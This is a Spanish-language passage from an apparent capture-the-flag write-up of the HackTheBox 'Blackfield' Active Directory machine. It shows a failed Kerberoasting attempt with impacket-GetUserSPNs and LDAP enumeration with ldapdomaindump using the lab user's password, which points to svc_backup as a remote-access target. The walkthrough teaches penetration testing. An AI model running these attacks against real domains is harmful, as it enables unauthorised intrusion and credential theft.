 <figure><img src="../../../.gitbook/assets/1704_vmware_APQeyQtiN5.png" alt=""><figcaption></figcaption></figure>

### Kerberoasting Attack (GetUserSPNs) - \[FAILED]

Ya que disponemos de credenciales de un usuario del dominio válidas, probaremos de realizar un **Kerberoasting Attack** para intentar obtener un Ticket Granting Service (TGS), sin éxito en este caso.

```bash
impacket-GetUserSPNs -dc-ip 10.10.10.192 BLACKFIELD.local/support -request
```

<figure><img src="../../../.gitbook/assets/1706_vmware_ZZWGN0DZNk.png" alt=""><figcaption></figcaption></figure>

## LDAP Enumeration (ldapdomaindump)

Enumeraremos el LDAP a través de la herramienta **ldapdomaindump**.

{% code overflow="wrap" %}
```bash
ldapdomaindump -u 'BLACKFIELD.local\support' -p '#00^BlackKnight' 10.10.10.192 -o ldap
```
{% endcode %}

<figure><img src="../../../.gitbook/assets/1705_vmware_ksjxuwqASO.png" alt=""><figcaption></figcaption></figure>

Verificamos los diferentes archivos de la enumeración de LDAP y comprobamos que el usuario "svc\_backup" forma parte del grupo "Remote Management Users", esto nos puede interesar, ya que con este usuario podríamos conectarnos remotamente en caso de disponer de sus credenciales.
